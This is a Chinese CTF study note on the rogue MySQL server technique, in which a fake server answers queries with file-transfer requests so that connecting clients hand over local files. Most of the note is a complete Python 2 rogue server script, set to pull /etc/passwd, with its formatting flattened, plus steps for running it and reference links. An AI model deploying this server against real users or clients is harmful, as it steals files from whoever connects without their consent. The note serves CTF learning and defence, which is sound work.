



前言 DDCTF中mysql弱口令需要的一个知识点，比赛通道关了，无法复现。这里做个简单的笔记
原理 构造伪mysql服务器，根据LOAD DATA INFILE原理，构造特殊Response TABULARW包诱导客户端发送需要的文件。
抓包分析 wireshark : port 3306mysql -uroot -p -h 127.0.0.1 // TCP访问
登录请求包
select * from users;
客户端请求
load local data infile “\etc\passwd” into table test3 fields terminated by ‘\n’;
服务端响应客户端Response Query包中却又带有/etc/passwd文件/etc/passwd内容

所以只要我们伪造的服务器伪造Response TABULARW包中的文件名，并附上我们指定文件就能得到到文件信息
In theory, a patched server could be built that would tell the client program to transfer a file of the server’s choosing rather than the file named by the client in the LOAD DATA statement.”，可以看到，客户端读取哪个文件其实并不是自己说了算的，是服务端说了算的，
不一定需要客户端先发送LOAD DATA LOCAL命令。官方文档解释如下A patched server could in fact reply with a file-transfer request to any statement, not just LOAD DATA LOCAL”
客户端具备的条件：
具体操作
关闭本地mysql服务器
rogue_mysql_server脚本端口设置多少就是主机mysql连接的端口
运行脚本https://github.com/allyshka/Rogue-MySql-Server
终端输入mysql -uroot -p -h 127.0.0.1 -P 3306

cat /etc/passwd得到信息
具体服务 
脚本 #!/usr/bin/env python
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 import socketimport asyncoreimport asynchatimport structimport randomimport loggingimport logging.handlersPORT = 3306 log = logging.getLogger(__name__) log.setLevel(logging.INFO) tmp_format = logging.handlers.WatchedFileHandler('mysql.log' , 'ab' ) tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s" )) log.addHandler( tmp_format ) filelist = ( '/etc/passwd' , ) __author__ = 'Gifts' def daemonize () : import os, warnings if os.name != 'posix' : warnings.warn('Cant create daemon on non-posix system' ) return if os.fork(): os._exit(0 ) os.setsid() if os.fork(): os._exit(0 ) os.umask(0o022 ) null=os.open('/dev/null' , os.O_RDWR) for i in xrange(3 ): try : os.dup2(null, i) except OSError as e: if e.errno != 9 : raise os.close(null) class LastPacket (Exception) : pass class OutOfOrder (Exception) : pass class mysql_packet (object) : packet_header = struct.Struct('<Hbb' ) packet_header_long = struct.Struct('<Hbbb' ) def __init__ (self, packet_type, payload) : if isinstance(packet_type, mysql_packet): self.packet_num = packet_type.packet_num + 1 else : self.packet_num = packet_type self.payload = payload def __str__ (self) : payload_len = len(self.payload) if payload_len < 65536 : header = mysql_packet.packet_header.pack(payload_len, 0 , self.packet_num) else : header = mysql_packet.packet_header.pack(payload_len & 0xFFFF , payload_len >> 16 , 0 , self.packet_num) result = "{0}{1}" .format( header, self.payload ) return result def __repr__ (self) : return repr(str(self)) @staticmethod def parse (raw_data) : packet_num = ord(raw_data[0 ]) payload = raw_data[1 :] return mysql_packet(packet_num, payload) class http_request_handler (asynchat.async_chat) : def __init__ (self, addr) : asynchat.async_chat.__init__(self, sock=addr[0 ]) self.addr = addr[1 ] self.ibuffer = [] self.set_terminator(3 ) self.state = 'LEN' self.sub_state = 'Auth' self.logined = False self.push( mysql_packet( 0 , "" .join(( '\x0a' , '5.6.28-0ubuntu0.14.04.1' + '\0' , '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00' , )) ) ) self.order = 1 self.states = ['LOGIN' , 'CAPS' , 'ANY' ] def push (self, data) : log.debug('Pushed: %r' , data) data = str(data) asynchat.async_chat.push(self, data) def collect_incoming_data (self, data) : log.debug('Data recved: %r' , data) self.ibuffer.append(data) def found_terminator (self) : data = "" .join(self.ibuffer) self.ibuffer = [] if self.state == 'LEN' : len_bytes = ord(data[0 ]) + 256 *ord(data[1 ]) + 65536 *ord(data[2 ]) + 1 if len_bytes < 65536 : self.set_terminator(len_bytes) self.state = 'Data' else : self.state = 'MoreLength' elif self.state == 'MoreLength' : if data[0 ] != '\0' : self.push(None ) self.close_when_done() else : self.state = 'Data' elif self.state == 'Data' : packet = mysql_packet.parse(data) try : if self.order != packet.packet_num: raise OutOfOrder() else : self.order = packet.packet_num + 2 if packet.packet_num == 0 : if packet.payload[0 ] == '\x03' : log.info('Query' ) filename = random.choice(filelist) PACKET = mysql_packet( packet, '\xFB{0}' .format(filename) ) self.set_terminator(3 ) self.state = 'LEN' self.sub_state = 'File' self.push(PACKET) elif packet.payload[0 ] == '\x1b' : log.info('SelectDB' ) self.push(mysql_packet( packet, '\xfe\x00\x00\x02\x00' )) raise LastPacket() elif packet.payload[0 ] in '\x02' : self.push(mysql_packet( packet, '\0\0\0\x02\0\0\0' )) raise LastPacket() elif packet.payload == '\x00\x01' : self.push(None ) self.close_when_done() else : raise ValueError() else : if self.sub_state == 'File' : log.info('-- result' ) log.info('Result: %r' , data) if len(data) == 1 : self.push( mysql_packet(packet, '\0\0\0\x02\0\0\0' ) ) raise LastPacket() else : self.set_terminator(3 ) self.state = 'LEN' self.order = packet.packet_num + 1 elif self.sub_state == 'Auth' : self.push(mysql_packet( packet, '\0\0\0\x02\0\0\0' )) raise LastPacket() else : log.info('-- else' ) raise ValueError('Unknown packet' ) except LastPacket: log.info('Last packet' ) self.state = 'LEN' self.sub_state = None self.order = 0 self.set_terminator(3 ) except OutOfOrder: log.warning('Out of order' ) self.push(None ) self.close_when_done() else : log.error('Unknown state' ) self.push('None' ) self.close_when_done() class mysql_listener (asyncore.dispatcher) : def __init__ (self, sock=None) : asyncore.dispatcher.__init__(self, sock) if not sock: self.create_socket(socket.AF_INET, socket.SOCK_STREAM) self.set_reuse_addr() try : self.bind(('' , PORT)) except socket.error: exit() self.listen(5 ) def handle_accept (self) : pair = self.accept() if pair is not None : log.info('Conn from: %r' , pair[1 ]) tmp = http_request_handler(pair) z = mysql_listener() asyncore.loop()
参考链接 https://lightless.me/archives/read-mysql-client-file.html
http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/
https://dev.mysql.com/doc/internals/en/com-query-response.html